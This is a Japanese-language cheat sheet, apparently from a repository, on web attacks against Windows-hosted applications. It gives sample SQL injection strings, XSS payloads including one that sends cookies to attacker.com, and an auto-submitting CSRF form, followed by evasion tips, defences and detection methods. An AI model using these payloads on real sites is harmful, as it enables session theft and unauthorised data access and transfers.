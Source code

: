 # Windows Web Application Attack Techniques

**対応OS**: Windows

## 概要
Windows環境でのWebアプリケーションに対する攻撃手法について解説します。

## 基本的な手法

### SQLインジェクション
```sql
-- 基本的なSQLインジェクション
' OR '1'='1

-- ユニオンベースのSQLインジェクション
' UNION SELECT NULL,NULL,NULL--

-- 時間ベースのブラインドSQLインジェクション
'; IF (SELECT COUNT(*) FROM users WHERE username='admin')>0 WAITFOR DELAY '0:0:5'--

-- エラーベースのSQLインジェクション
' AND 1=CONVERT(int,(SELECT @@version))--
```

### XSS (クロスサイトスクリプティング)
```javascript
// 反射型XSS
<script>alert(document.cookie)</script>

// 格納型XSS
<img src="x" onerror="fetch('http://attacker.com/steal?cookie='+document.cookie)">

// DOM based XSS
<script>
document.write("<input value='"+location.hash.slice(1)+"'>");
</script>
```

### CSRF (クロスサイトリクエストフォージェリ)
```html
<!-- 自動送信フォーム -->
<form action="http://target.com/transfer" method="POST" id="csrf-form">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker">
</form>
<script>document.getElementById("csrf-form").submit();</script>
```

## 検知回避テクニック
- エンコーディングの使用
- WAFバイパス
- 難読化
- タイミング制御

## 防御策
- 入力検証
- 出力エスケープ
- CSRFトークン
- セキュリティヘッダー

## 検知方法
- WAFログ分析
- 異常なリクエストパターン
- トラフィック監視
- エラーログ分析

## 注意事項
- このテクニックは教育目的でのみ使用してください
- 実環境での使用は法的責任を伴う可能性があります
- すべてのテストは許可された環境でのみ行ってください 